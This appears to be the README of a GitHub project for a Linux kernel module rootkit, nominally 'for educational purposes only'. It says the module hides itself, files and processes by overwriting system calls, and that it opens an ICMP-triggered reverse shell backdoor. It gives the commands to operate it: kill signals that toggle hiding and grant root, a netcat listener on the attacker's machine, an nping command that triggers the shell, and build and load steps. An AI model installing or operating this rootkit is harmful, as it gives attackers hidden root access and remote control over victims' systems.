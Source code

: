 # Linux Kernel Module Rootkit

For educational purposes only.

Tested on ubuntu 22.04.1 LTS.

This simple kernel module rootkit overwrites linux system calls to hide itself, hide files and directories and hide multiple processes. Also when loaded it secretly starts an ICMP listener that starts a reverse shell in response to an attackers ping. It can be controlled via `kill` commands: 

## Commands

- Hide/Show rootkit in the list of loaded modules (`$ lsmod`)
  
  ```sh
  $ kill -63 1
  ```
  
  When installed it starts hidden. You can only remove it when it's unhidden.

- Become root
  
  ```sh
  $ kill -64 1
  ```

- Hide process with pid

  ```sh
  $ kill -62 <pid>
  ```

- Unhide process with pid

  ```sh
  $ kill -61 <pid>
  ```

It also hides every file and directory with prefix `rootk_`.

## Backdoor

On attacker machine start netcat listener on some port:

```sh
$ nc -lnvp <port>
```

Send ICMP ping to victim:

```sh
$ nping --icmp -c 1 -dest-ip <victim-ip> --data-string 'xCs!w@ <attacker-ip> <port>'
```

## Install

Compile module and backdoor:

```sh
$ make
$ make install
```

Load module:

```sh
$ sudo insmod build/rootkit.ko
```

### Remove module:

Make sure the module is visible in `lsmod`. To toggle visibility run `kill -63 1`.

Then you can remove it using:

```sh
$ sudo rmmod rootkit.ko
```
